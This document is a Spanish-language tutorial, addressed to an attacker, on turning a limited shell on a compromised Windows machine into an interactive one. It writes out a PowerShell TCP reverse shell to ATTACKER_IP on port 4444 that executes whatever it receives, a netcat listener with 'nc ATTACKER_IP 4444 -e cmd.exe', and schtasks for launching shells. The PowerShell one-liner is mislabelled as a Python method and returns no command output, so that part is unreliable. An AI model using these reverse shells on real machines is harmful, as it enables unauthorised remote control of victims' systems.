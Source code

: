 En **Windows**, "upgradear" o mejorar una **shell no interactiva** se refiere a la técnica de transformar una shell limitada o restringida (por ejemplo, cuando obtienes acceso a una máquina comprometida y no tienes una terminal completa) en una shell interactiva que te permita realizar una mayor variedad de comandos y tener control total del sistema.

### 📌 **Métodos Comunes para "Upgradear" una Shell No Interactiva en Windows:**

1. **Usar `powershell.exe` para obtener una shell interactiva**

Si tienes acceso a **PowerShell** en la máquina comprometida, pero la shell no es interactiva, puedes invocar PowerShell de manera interactiva. Por ejemplo, puedes ejecutar este comando para obtener una nueva sesión de PowerShell que sea completamente funcional:

```powershell
powershell.exe -NoExit
```

🔹 **Explicación:**  
El parámetro `-NoExit` le indica a PowerShell que no cierre la sesión después de ejecutar el comando. Esto crea una nueva instancia de PowerShell interactiva en la cual puedes ejecutar comandos normalmente.

1. **Usar `cmd.exe` para abrir una shell de comandos nueva**

Si tienes acceso a `cmd.exe`, pero la shell está restringida, puedes intentar abrir una nueva ventana de comandos para obtener una shell interactiva completa:

```cmd
start cmd.exe
```

🔹 **Explicación:**  
El comando `start` abre una nueva ventana de **cmd.exe**, proporcionando una shell completamente interactiva.

1. **Usar `python` para crear una reverse shell (con conexión a tu máquina)**

Si tienes Python instalado en el sistema, puedes crear una reverse shell (conexión inversa) que te permita tomar el control de la máquina comprometida de forma remota. Esto se puede hacer con el siguiente comando:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP', 4444);$stream = $client.GetStream();$writer = New-Object System.IO.StreamWriter($stream);$reader = New-Object System.IO.StreamReader($stream);while($true){$writer.Write($null);$writer.Flush();$data = $reader.ReadLine();Invoke-Expression $data}
```

🔹 **Explicación:**

- `ATTACKER_IP` es la IP de tu máquina atacante.
- `4444` es el puerto en el que tu máquina atacante escuchará.
- El comando crea un cliente TCP que se conecta a tu máquina atacante y te da acceso a la shell de la víctima para ejecutar comandos remotamente.

1. **Crear un reverse shell con `nc` (Netcat)**

Si tienes **Netcat** en la máquina comprometida, puedes usarlo para abrir una reverse shell. Esto te da acceso a la terminal remota de la máquina.

### **En tu máquina atacante (escuchando en el puerto 4444):**

```bash
nc -lvnp 4444
```

### **En la máquina comprometida (ejecutando el reverse shell):**

```cmd
nc ATTACKER_IP 4444 -e cmd.exe
```

🔹 **Explicación:**

- `nc -lvnp 4444` abre un puerto en tu máquina atacante.
- El comando en la víctima (`nc ATTACKER_IP 4444 -e cmd.exe`) crea una conexión hacia tu máquina atacante y te proporciona una shell interactiva de `cmd.exe`.

1. **Usar `schtasks` para ejecutar un script o shell interactiva**

Si tienes acceso a crear tareas programadas en la víctima, puedes crear una tarea programada que ejecute una shell interactiva. Un ejemplo podría ser ejecutar `cmd.exe` de manera interactiva o ejecutar PowerShell como un proceso independiente.

```cmd
schtasks /create /sc once /tn "MyTask" /tr "cmd.exe" /st 12:00
```

🔹 **Explicación:**  
Este comando crea una tarea programada llamada "MyTask" que ejecutará `cmd.exe` cuando la hora llegue a las 12:00. Puedes configurarlo para ejecutar `cmd.exe` de manera interactiva.

---

### 🚀 **Conclusión:**

En **Windows**, puedes upgradear una shell no interactiva a una shell interactiva utilizando una variedad de métodos, como:

- **`powershell.exe -NoExit`** para invocar PowerShell de manera interactiva.
- **`start cmd.exe`** para abrir una nueva ventana de comandos.
- **Reverse shell con Python** usando `New-Object System.Net.Sockets.TCPClient`.
- **Reverse shell con Netcat** usando el comando `nc`.
- **Uso de tareas programadas** con `schtasks` para ejecutar una shell interactiva.